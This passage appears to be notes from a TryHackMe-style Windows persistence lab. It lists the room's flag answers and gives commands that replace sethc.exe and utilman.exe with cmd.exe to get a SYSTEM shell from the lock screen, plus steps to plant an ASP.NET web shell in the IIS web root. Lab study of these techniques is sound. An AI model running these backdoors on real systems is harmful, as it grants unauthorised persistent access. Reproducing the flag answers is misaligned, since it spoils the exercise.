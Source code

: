 ```markdown
1. flag10? - THM{NO_NO_AFTER_YOU}

2. flag11? - THM{LET_ME_HOLD_THE_DOOR_FOR_YOU}

3. flag12? - THM{I_INSIST_GO_FIRST}

4. flag13? - THM{USER_TRIGGERED_PERSISTENCE_FTW}
```

## Backdooring the Login Screen / RDP

* Sticky Keys:

```cmd
#we can abuse the Sticky Keys feature
#which executes the binary C:\Windows\System32\sethc.exe

#we can replace sethc.exe with cmd.exe

#take ownership of file
takeown /f C:\Windows\System32\sethc.exe

#grant current user modify permissions
icacls C:\Windows\System32\sethc.exe /grant Administrator:F

copy c:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe

#now lock session, press SHIFT key 5 times
#to get terminal with SYSTEM priv
```

* Utilman:

```cmd
takeown /f c:\Windows\System32\utilman.exe

icacls C:\Windows\System32\utilman.exe /grant Administrator:F

copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe

#lock session, and click on 'Ease of Access' button to get SYSTEM access
```

```markdown
1. flag14? - THM{BREAKING_THROUGH_LOGIN}

2. flag15? - THM{THE_LOGIN_SCREEN_IS_MERELY_A_SUGGESTION}
```

## Persisting Through Existing Services

* Using Web Shells:

```cmd
#we can upload a web shell to the web directory
#this can grant us privileges us IIS configured user

#transfer ASP.NET web shell to victim machine
move shell.aspx C:\inetpub\wwwroot\

#we can visit http://10.10.113.252/shell.aspx
#and run commands in cmd.exe
```
